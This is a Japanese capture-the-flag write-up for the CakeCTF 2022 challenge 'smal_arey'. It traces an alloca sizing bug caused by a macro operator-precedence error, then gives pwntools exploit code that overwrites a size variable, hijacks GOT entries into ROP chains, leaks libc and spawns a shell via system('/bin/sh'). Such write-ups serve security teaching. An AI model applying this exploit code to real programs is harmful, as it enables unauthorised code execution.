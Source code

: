 # smal_arey - CakeCTF2022

マクロの実装ミスによって確保される領域が少なく、
`size`を書き換えることができるので、
GOT Overwrite -> libcアドレスをリーク、
GOT Overwrite -> シェルを起動することが目的。

## 解法

以下のマクロの部分は、
`n`が5の場合を考えると`alloca(5 + 1 * sizeof(long))`と同等の意味になる。
本来は`alloca((5 + 1) * 8)`がほしいが、四則法則より`alloca(5 + 8)`しか確保されない。
```c
#define ARRAY_SIZE(n) (n * sizeof(long))
#define ARRAY_NEW(n) (long*)alloca(ARRAY_SIZE(n + 1))
```

`size: 5`、`index: 2`、`value: 32`を入れたときの様子です。
4番目に`size`の値があります。
```none
gef> x/20xg $rsp
0x7fffffffe310: 0x0000000000401380      0x0000000000000020
0x7fffffffe320: 0x0000000000000003      0x00000000004011fa
0x7fffffffe330: 0x0000000000000005      0x0000000000000001
0x7fffffffe340: 0x00007fffffffe310      0x6b2f73d309740700
```

`size`の値が格納されている`index`を指定することができます。
`size`の値に大きな値を指定して、AAWを実現します。
```c
if (scanf("%ld", &size) != 1 || size < 0 || size > 5)
...
if (scanf("%ld", &index) != 1 || index < 0 || index >= size)
```

`0x7fffffffe340`のアドレス(`0x00007fffffffe310`)を
書き換えることでGOT Overwriteができるので、
GOT OverwriteからROPにつなげる手法[^1]を使います。

```python
rop_pop_rdi = 0x004013e3
rop_pop_r15 = 0x004013e2

def setvalue(idx, v):
    io.sendlineafter("index: ", str(idx))
    io.sendlineafter("value: ", str(v))

io.sendlineafter("size: ", "5")

# Leak GOT addr
setvalue(0, rop_pop_rdi)
setvalue(1, e.got["printf"])
setvalue(2, e.plt["printf"])
setvalue(3, e.sym["_start"])

# Overwrite size
setvalue(4, 0xffffffff)

setvalue(6, e.got["exit"])
setvalue(0, rop_pop_r15)
io.sendlineafter("index: ", str(-1))
```

`printf(printf@got)`を実行するROP chainを組み、
`main()`関数の処理に戻します。

リークしたGOTアドレスからlibcのベースアドレスを求めます。
```python
libc.address = u64(io.recvn(6)+b"\x00"*2) - libc.sym["printf"]
```

libcのアドレスがわかったら、`system("/bin/sh")`を実行するROP chainを組み、
シェルを起動します。
```python
io.sendlineafter("size: ", "5")
setvalue(0, rop_pop_rdi)
setvalue(1, next(libc.search(b"/bin/sh\x00")))
setvalue(2, libc.sym["system"])

setvalue(4, 0xffffffff)

setvalue(6, e.got["exit"])
setvalue(0, rop_pop_r15)
io.sendlineafter("index: ", str(-1))
```

[^1]: https://inaz2.hatenablog.com/entry/2016/12/17/180655
